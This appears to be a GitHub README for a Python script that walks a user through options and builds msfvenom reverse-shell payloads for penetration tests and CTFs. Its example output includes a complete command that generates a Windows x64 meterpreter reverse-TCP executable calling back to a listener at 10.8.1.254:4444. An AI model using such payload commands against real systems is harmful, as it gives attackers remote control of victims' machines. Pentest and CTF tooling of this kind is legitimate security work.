 # Payload Generator
[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![python](https://img.shields.io/badge/python-3-blue.svg)](https://www.python.org/downloads/)

----

Python script to help automate the generation of malicious payloads for PenTests and CTFs


## How it Works

This script collects various information from the users input such as Listening IP and Port, Target OS, Type of shell, etc to craft an msfvenom reverse shell payload.

The main purpose of this script was to help with the synatx of common payloads paths that I just couldn't seem to remember, so this way I can just tell the script what I want and it builds the payload for me.

## Example Output

```
root@kali:~/Projects/payload_generator# ./main.py 
Payload Generator

[+] Finding currently used network adapters
eth0
lo
tun0

[++] Please choice which adapter you are using. tun0

Your IP address is...
10.8.1.254
[++] Please enter port you will be listening on. 4444

[+] Building payload...
   [++] Staged or Stageless? (1 or 2): 2
   [++] Meterpreter or Standard? (1 or 2): 1
   [++] Windows or Linux? (1 or 2): 1
   [++] x86 or x64? (1 or 2): 2

[+] Supported file types...
1 = .exe    5 = .aspx    9 = .py
2 = .elf    6 = .jsp    10 = .sh
3 = .php    7 = .war
4 = .asp    8 = .pl
   [++] Choose a supported file type: 1

Payload ready
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.1.254 LPORT=4444 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 206403 bytes
Final size of exe file: 212992 bytes
```
